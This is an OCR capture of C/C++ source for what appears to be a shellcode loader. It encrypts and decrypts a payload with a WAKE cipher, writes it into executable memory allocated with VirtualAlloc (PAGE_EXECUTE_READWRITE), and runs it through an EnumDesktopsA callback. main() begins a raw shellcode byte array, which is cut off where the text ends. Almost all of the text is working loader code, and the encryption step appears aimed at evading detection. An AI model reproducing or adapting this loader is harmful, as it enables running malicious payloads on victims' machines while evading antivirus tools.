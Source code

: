 ```cpp
  for (size_t i = 0; i < data_len; i++) {
    printf("%02x ", data[i]);
  }
  printf("\n\n");

  add_padding(&data, &data_len); // Add padding

  printf("padded data:\n");
  for (size_t i = 0; i < data_len; i++) {
    printf("%02x ", data[i]);
  }
  printf("\n\n");

  size_t num_words = data_len / 4;
  uint32_t *data_words = (uint32_t *)data;

  uint32_t schedule[ROUNDS];
  key_schedule(key, schedule);

  // Encrypt the data
  wake_encrypt(schedule, data_words, num_words);

  printf("encrypted data:\n");
  for (size_t i = 0; i < num_words; i++) {
    // printf("%02X ", data_words[i]);
    for (int j = 0; j < 4; j++) {
      printf("%02x ", (data_words[i] >> (j * 8)) & 0xFF);
    }
    // printf(" "); // Add space between words
  }
  printf("\n\n");

  // Decrypt the data
  wake_decrypt(schedule, data_words, num_words);

  printf("decrypted data:\n");
  for (size_t i = 0; i < num_words; i++) {
    // printf("%08X ", data_words[i]);
    for (int j = 0; j < 4; j++) {
      printf("%02x ", (data_words[i] >> (j * 8)) & 0xFF);
    }
    // printf(" "); // Add space between words
  }
  printf("\n\n");

  remove_padding(&data, &data_len); // Remove padding

  printf("decrypted unpadded data:\n");
  for (size_t i = 0; i < data_len; i++) {
    printf("%02x ", data[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, data_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, data, data_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
}

int main() {
  unsigned char data[] = {
    0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0,
    0x0, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
    0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
```